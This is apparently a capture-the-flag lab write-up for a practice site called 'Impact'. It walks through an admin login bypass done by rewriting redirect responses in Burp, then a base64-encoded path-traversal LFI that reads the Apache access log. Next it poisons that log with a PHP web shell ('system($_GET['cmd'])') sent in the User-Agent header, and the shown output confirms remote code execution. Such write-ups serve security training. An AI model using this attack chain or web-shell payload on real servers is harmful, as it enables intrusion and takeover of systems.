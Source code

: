 #+title: Impact
#+author: gabriel

* intro
A hacker group organises cyber attacks against companies and offers the sensitive data they obtain for sale with cryptocurrency on the website called "Impact". This hacker group is increasing the list of target companies every day. Your task is to register as an ordinary customer on this website and collect information about the hacker group and its manager. Good luck in your mission!

* info gathering


#+begin_src sh
🚨 Caught ctrl+c 🚨 saving scan state to ferox-http_impact_hv-1760458064.state ...
[#>------------------] - 2m     19591/270037  75m     found:21      errors:4932
[##>-----------------] - 2m      3978/30000   28/s    http://impact.hv/
[##>-----------------] - 2m      3689/30000   27/s    http://impact.hv/js/
[#>------------------] - 2m      1784/30000   13/s    http://impact.hv/uploads/
[##>-----------------] - 2m      3770/30000   28/s    http://impact.hv/css/
[#>------------------] - 2m      2323/30000   18/s    http://impact.hv/fonts/
[>-------------------] - 2m      1461/30000   11/s    http://impact.hv/webadmin/
#+end_src

*admin email* ->
: zerotrace@secretmail.hv

access the application, create a user and log into the account, after logging in, send the payment request to the "hacker" (the admin)

Is possible to bypass the login page with the /webadmin/ page, when we access /webadmin/ we are redirect to the /webadmin/login

With Burp, if we modify the response status code from 302 to 200, we bypass the login page. But this is possible with proxy intercet, where we can modify the response before reach the browser.

To modify and continue with the modified response, we need to create a match and replace rule on proxy settings ->

Create an rule where all 302 Response headers go to 200

After login adminpanel, accept the request from your normal user created early.
*LFI to read access.log* ->
#+begin_src sh
GET /search.php?name=Li4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vdmFyL2xvZy9hcGFjaGUyL2FjY2Vzcy5sb2c%3d HTTP/1.1
Host: impact.hv
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://impact.hv/profile.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=seccun2ljsqg1ot2el57pvngf0
Connection: keep-alive
#+end_src

*test injection with User-Agent header* ->
#+begin_src sh
[19:36][]~ ✮ curl -v 'http://impact.hv/' -A "<?php echo 'Hello World'; ?>"
 Host impact.hv:80 was resolved.
 IPv6: (none)
 IPv4: 172.20.24.170
   Trying 172.20.24.170:80...
 Established connection to impact.hv (172.20.24.170 port 80) from 10.8.58.60 port
 33472
 using HTTP/1.x
> GET / HTTP/1.1
> Host: impact.hv
> User-Agent: <?php echo 'Hello World'; ?>
> Accept: /
>
 Request completely sent off
< HTTP/1.1 200 OK
< Date: Tue, 14 Oct 2025 22:40:10 GMT
< Server: Apache/2.4.59 (Debian)
< Set-Cookie: PHPSESSID=vmq5uvrhdsldur0bh8lukk9kl9; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< Vary: Accept-Encoding
< Content-Length: 5235
< Content-Type: text/html; charset=UTF-8
<
<!DOCTYPE html>
<html lang="en">
<head>
#+end_src

Checking the access.log file again, you can see that the injection was successful ->
#+begin_src javascript
10.8.58.60 - - [14/Oct/2025:18:37:57 -0400] "GET /search.php?name=Li4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vdmFyL2xvZy9hcGFjaGUyL2FjY2Vzcy5sb2c%3d HTTP/1.1" 200 1098 "http://impact.hv/profile.php" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36"
10.8.58.60 - - [14/Oct/2025:18:40:10 -0400] "GET / HTTP/1.1" 200 5576 "-" "Hello World"
#+end_src

It was possible to identify that this simple php payload was executed, but when trying something like system() or others, the server does not process correctly and generates 500 internal error

using this payload I managed to inject without causing an error ->
: curl -v -A "<?php system(\$_GET['cmd']); ?>" http://impact.hv/

and now the RCE is possible ->
#+begin_src javascript
10.8.58.60 - - [14/Oct/2025:19:10:40 -0400] "GET /search.php?name=Li4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vLi4uLi8vdmFyL2xvZy9hcGFjaGUyL2FjY2Vzcy5sb2c%3d HTTP/1.1" 200 1060 "http://impact.hv/profile.php" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36"
10.8.58.60 - - [14/Oct/2025:19:11:00 -0400] "GET / HTTP/1.1" 200 5576 "-" "uid=33(www-data) gid=33(www-data) groups=33(www-data)
#+end_src
